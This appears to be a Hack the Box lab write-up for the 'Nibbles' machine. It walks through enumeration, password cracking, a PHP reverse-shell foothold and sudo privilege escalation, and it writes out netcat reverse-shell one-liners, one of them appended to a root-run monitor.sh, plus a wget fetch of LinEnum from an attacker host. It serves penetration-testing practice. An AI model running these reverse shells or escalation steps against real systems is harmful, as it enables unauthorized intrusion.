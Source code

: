 ```yaml
---
description: Hack the Box
---
```


# Nibbles Box

1. Enumerate using port scanning against target application to find out open ports and the services that are running. Use tool such as nmap
2. Web footprinting techniques help to gather more information about the target, use tools like whatweb, gobuster to scan directories for web application.
3. Performing password cracking ,we can use tools like hashcat/hydra. However it is important to analyze information that is available,it is not uncommon to crack passwords by crawling websites using cewl
4. Commence initial foothold by trying to inject reverse shell after successfully logging into website so that we can inject arbitary commands that we want
5.  To inject reverse shell, can upload php file with reverse bash shell command -&#x20;

    ```shell-session
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
    ```


6. It will be best if we can inject a fully interactive terminal , privillege commands such as su or sudo can be only run using a terminal. We can use python to create to upgrade to a full `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

7.  Privilege escaltion -  we can run [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to run automated privllege checks. Host the LinEnum bash script in attacker machine\
    `sudo python3 -m http.server 8080`\
    \
    &#x20;and get the victim machine to download this file by using wget \
    `wget http://10.10.15.38:8080/LinEnum.sh`\
    \
    Running ./LinEnum, we can see interesting sudo privlliges that can be run without password\


    <figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
8. Inject reverse shell into bash script with netcat listener  `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`&#x20;
9.  Start listner script with reverse shell listner using sudo command&#x20;

    ```shell-session
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```

Also another way is to use metasploit console and its libraries which are far more straightforward
